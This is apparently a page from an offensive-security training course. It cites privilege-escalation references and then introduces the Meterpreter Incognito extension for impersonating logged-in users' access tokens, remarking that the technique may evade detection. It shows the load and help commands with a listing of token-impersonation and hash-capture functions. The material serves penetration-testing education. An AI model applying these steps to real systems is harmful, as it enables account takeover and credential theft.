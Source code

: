 42

(Microsoft, 2018), [https://docs.microsoft.com/en-us/windows/win32/com/component-object-model--com--portal](https://docs.microsoft.com/en-us/windows/win32/com/component-object-model--com--portal) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fnref-local_id_505-42)

43

(@decoder\_it, 2020), [https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/](https://decoder.cloud/2020/05/11/no-more-juicypotato-old-story-welcome-roguepotato/) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fnref-local_id_505-43)

44

(@decoder\_it, 2019), [https://decoder.cloud/2019/12/06/we-thought-they-were-potatoes-but-they-were-beans/](https://decoder.cloud/2019/12/06/we-thought-they-were-potatoes-but-they-were-beans/) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fnref-local_id_505-44)

45

(Microsoft, 2018), [https://docs.microsoft.com/en-us/windows/win32/winrm/portal](https://docs.microsoft.com/en-us/windows/win32/winrm/portal) [↩︎](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fnref-local_id_505-45)

#### 15.2.3. Fun with Incognito

In this section, we'll use the Meterpreter Incognito[1](https://portal.offsec.com/courses/pen-300-9502/learning/windows-credentials-14692/windows-credentials-14820#fn-local_id_506-1) module to impersonate any logged in users and obtain code execution in their context without access to any passwords or hashes.

Although we'll use Mimikatz to collect Kerberos authentication credentials later in this module, this access token attack vector does not rely on Mimikatz and may evade some detection software.

To demonstrate this, we'll authenticate to appsrv01 as the _admin_ user through Remote Desktop and leave the connection open. We'll then switch to one of the SYSTEM integrity Meterpreter shells we obtained in the previous sections.

Next, we'll load the Incognito extension through the load command as shown in Listing 45 and run help to display available commands.

```
meterpreter > load incognito
Loading extension incognito...Success.

meterpreter > help incognito

Incognito Commands
==================

    Command              Description
    -------              -----------
    add_group_user       Attempt to add a user to a global group with all tokens
    add_localgroup_user  Attempt to add a user to a local group with all tokens
    add_user             Attempt to add a user with all tokens
    impersonate_token    Impersonate specified token
    list_tokens          List tokens available under current user context
    snarf_hashes         Snarf challenge/response hashes for every token
```
